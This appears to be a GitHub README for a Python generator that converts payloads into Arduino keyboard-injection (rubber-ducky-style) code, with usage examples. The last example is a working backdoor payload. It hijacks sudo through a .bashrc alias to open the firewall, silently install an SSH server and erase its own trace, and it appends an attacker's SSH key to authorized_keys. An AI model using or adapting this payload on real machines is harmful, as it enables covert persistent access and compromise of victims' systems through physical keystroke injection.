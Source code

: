 # Malduino/Arduino Keyboard code generator
Code generator of arduino keyboard proyect's (rubber ducky like)

With this proyect you can generate arduino keyboard code's easier. It's a command line translater of payloads to be typed with keyboard arduino library and also it can type with many languages or type methods, like unicode (linux), windows "alt" codes, etc.

ITS NOT RECOMENDED USE IT TO UPLOAD NOW. You can avoid this with -jc parameter, it can cause overwrite of firmware reset delay and its hard to rewrite this again.

--- 

File explanaition:
-
See at config.py file the path to arduino code for upload (not recomended to use it now).

See payloads.py to view some predefined payloads.

Executers are some decorators of payloads, you can transform the execution of payload to do it in some other way. They are defined in executer.py.

Translaters in translater.py are the last transform of payload typed. There is some ways to type entire payload, they can change between an spanish keyboard, an english keyboard, a linux unicode type mode, a windows alt code typing, etc.

In uploader.py is defined the connection to arduino, how it is find at usb ports, how to upload, and such things.

"reset" files are nothing. Some ways to reset arduinos.


Some examples and payloads:
-

Basic. Use -h for all command description. Use -v to show what the program is doing:
```bash
python3 run.py [-h] [-v] [options]
```

Using predefined payload "firefox":
```bash
python3 run.py -p firefox -tm unicode -v -jc
```

Types a custom payload with -sp. Then translate it to typing mode "unicode" used on linux.
```bash
python3 run.py -sp 'echo gato; firefox algunsitio.com' -tm unicode -v -jc
```

This adds at the end a ssh-pub-key and first a line to the .bashrc with a payload that adds an alias to sudo with:
- a change to iptables input policy setting it to ACCEPT
- a ssh server instalation
- a deletion of payload line in .bashrc
- a execution of original sudo command
```bash
python3 run.py -sp " echo \" alias sudo='sudo iptables -P INPUT ACCEPT ; sudo apt install -qq -y openssh-server &> /dev/null ; grep -v \\\"#estalinea\\\" .bashrc >.tmp;mv .tmp .bashrc ; /usr/bin/sudo' #estalinea\" >> .bashrc ; echo \"ssh-rsa SSH-PUB-KEY-HERE \" >> \$HOME/.ssh/authorized_keys; exit; " -tm unicode -jc -otm ctrlaltt -em hex-bash -dp 0 -dl 0 -ctc -jc
```
